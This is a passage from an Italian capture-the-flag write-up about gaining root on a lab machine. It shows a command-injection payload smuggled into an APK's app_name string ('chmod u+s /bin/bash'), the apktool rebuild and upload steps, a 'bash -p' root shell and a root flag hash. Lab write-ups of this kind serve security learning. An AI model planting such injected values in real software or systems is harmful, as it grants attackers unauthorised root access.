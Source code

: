 ```bash
                mv "$IN_APK_NAME" "$IN_FOLDER/$APK_NAME"
        fi
        sig_check $IN_FOLDER $APK_NAME
        comp_check $IN_FOLDER $APK_NAME $PROCESS_BIN
        app_check $PROCESS_BIN $OUT_FOLDER $IN_FOLDER $OUT_APK_NAME
done
```

Decompiliamo nella macchina host con `apktool d catchv1.0.apk` e modifichiamo il file */res/values/strings.xml* 

```xml
<string name="app_name">Catch; chmod u+s /bin/bash</string>
```

Andando a ricompilare con `apktool b catchv1.0/` mi da errori e cercando su Google ho trovato un [articolo](https://ibotpeaches.github.io/Apktool/build/) nella quale si spiega come bypassare questo problema e ci da un [git](https://github.com/iBotPeaches/Apktool) dal quale mi sono scaricato il *jar*.

Quindi in locale ho decompilato l'apk con il comando `java -jar apktool_2.6.1.jar d catchv1.0.apk`, ho modificato il file di cui prima e ricompilato con il comando `java -jar apktool_2.6.1.jar b catchv1.0/ -o asd.apk`.

Ho caricato l'apk appena creata sulla macchina host nella cartella */opt/mdm/apk_bin/* e ho aspettato che venisse eseguito lo script:

```shell
will@catch:~$ bash -p
bash-5.0#
```

In */root* abbiamo la root flag: `f38663a37897e63b82406ab241241da4`

